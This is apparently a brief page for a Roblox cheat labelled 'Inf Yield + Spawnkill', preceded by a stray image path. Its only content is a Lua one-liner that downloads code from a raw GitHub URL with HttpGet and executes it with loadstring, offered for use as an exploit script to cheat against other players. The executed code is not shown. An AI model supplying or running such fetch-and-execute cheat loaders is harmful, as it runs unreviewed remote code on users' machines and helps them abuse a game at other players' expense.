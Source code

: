 # Inf Yield + Spawnkill
```lua
loadstring(game:HttpGet(('https://raw.githubusercontent.com/NotH4xor/Bahasf/main/Inf%20Yield/Beta'),true))()
```
